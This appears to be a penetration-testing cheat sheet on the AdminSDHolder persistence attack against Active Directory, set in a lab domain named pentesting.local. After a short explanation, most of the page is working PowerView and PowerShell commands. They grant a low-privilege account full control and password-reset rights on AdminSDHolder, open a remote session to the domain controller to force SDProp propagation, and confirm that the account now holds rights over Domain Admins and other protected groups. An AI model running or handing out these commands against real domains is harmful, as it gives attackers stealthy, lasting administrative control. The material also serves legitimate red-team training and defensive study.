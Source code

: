 # AdminSDHolder - Adding Permission

The general goal of an AdminSDHolder attack is to apply changes to the object, in many cases this means changes to the ACL. This can take many forms, but commonly an attacker may choose to add accounts to this list, giving them the same amount of privilege as other protected accounts and groups already in the AdminSDHolder object.

```sh
# First get DA
Import-Module powerview.ps1


# Adding Permission
# Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=pentesting,DC=local' -PrincipalIdentity student5 -Rights All -Verbose

# Other interesting permissions (ResetPassword, WriteMembers)
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=pentesting,DC=local' -PrincipalIdentity student1 -Rights ResetPassword -Verbose


# Invoking SDpropagator
https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory

# Create session to DC and load Invoke-SDPropagator.ps1 in the session
$sess = New-PSSession -ComputerName dc.pentesting.local -credential student1
Invoke-Command -FilePath .\Invoke-SDPropagator.ps1 -Session $sess
Enter-PSSession -Session $sess


# Invoke Invoke-SDPropagator.ps1 from the session
Invoke-SDPropagator -ShowProgress -TimeoutMinutes 1 -Verbose


# Check ACL Access
# Check the Domain Admins Permission to see if our user is there now.
# PowerView as normal user:
Get-DomainObjectAcl -SamAccountName "domain admins" | ? {($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1607')}
Get-DomainObjectAcl -SamAccountName "Domain Controllers" | ? {($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1607')}
Get-DomainObjectAcl -SamAccountName "Enterprise Admins" | ? {($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1607')}
Get-DomainObjectAcl -SamAccountName "Replicator" | ? {($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1607')}
Get-DomainObjectAcl -SamAccountName "Schema Admins" | ? {($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1607')}
```
